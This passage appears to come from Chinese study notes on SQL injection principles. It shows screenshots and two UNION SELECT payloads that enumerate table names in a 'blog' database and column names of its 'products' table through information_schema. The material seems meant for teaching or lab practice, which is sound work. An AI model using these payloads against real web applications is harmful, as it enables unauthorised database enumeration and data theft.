 ![image-20250112184324074](.\SQL注入原理.assets\image-20250112184324074.png)

~~~perl
获取数据库名blog下的表名信息
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='blog'
~~~

![image-20250112184519144](.\SQL注入原理.assets\image-20250112184519144.png)

~~~perl
获取数据库名blog下的表products下的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='products' and table_schema='blog'
~~~
